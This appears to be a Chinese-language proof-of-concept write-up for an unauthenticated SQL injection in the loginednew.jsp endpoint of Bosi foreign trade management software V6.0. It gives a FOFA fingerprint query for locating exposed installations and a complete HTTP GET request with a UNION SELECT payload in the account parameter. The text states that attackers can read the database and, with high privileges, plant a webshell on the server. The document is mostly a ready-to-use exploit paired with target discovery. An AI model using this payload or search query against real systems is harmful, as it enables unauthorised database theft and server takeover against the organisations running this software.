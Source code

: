 # 博斯外贸管理软件loginednew.jsp存在SQL注入漏洞

博斯外贸管理软件V6.0 loginednew.jsp 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa
```javascript
title="欢迎使用 博斯软件"
```

## poc
```javascript
GET /loginednew.jsp?welcome=%BB%B6%D3%AD%CA%B9%D3%C3%20%B2%A9%CB%B9%C8%ED%BC%FEV6.0(20110701)&systemname=BS&account=1%27+UNION+ALL+SELECT+NULL%2CNULL%2CCHAR%28113%29%2BCHAR%28107%29%2BCHAR%28118%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28117%29%2BCHAR%28115%29%2BCHAR%28111%29%2BCHAR%28109%29%2BCHAR%28106%29%2BCHAR%2887%29%2BCHAR%28103%29%2BCHAR%2888%29%2BCHAR%28113%29%2BCHAR%2890%29%2BCHAR%28117%29%2BCHAR%2874%29%2BCHAR%28101%29%2BCHAR%28117%29%2BCHAR%28118%29%2BCHAR%28113%29%2BCHAR%2879%29%2BCHAR%2883%29%2BCHAR%2886%29%2BCHAR%28104%29%2BCHAR%2868%29%2BCHAR%2889%29%2BCHAR%28107%29%2BCHAR%2874%29%2BCHAR%2887%29%2BCHAR%2871%29%2BCHAR%28115%29%2BCHAR%28121%29%2BCHAR%2873%29%2BCHAR%28114%29%2BCHAR%2882%29%2BCHAR%2866%29%2BCHAR%28115%29%2BCHAR%2882%29%2BCHAR%2872%29%2BCHAR%28117%29%2BCHAR%28106%29%2BCHAR%28121%29%2BCHAR%2880%29%2BCHAR%28117%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28120%29%2BCHAR%28113%29%2CNULL--+EqLf&password=1&val=0000&availHeight=834&Safari=Y&loginurl= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241227215249023](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272152097.png)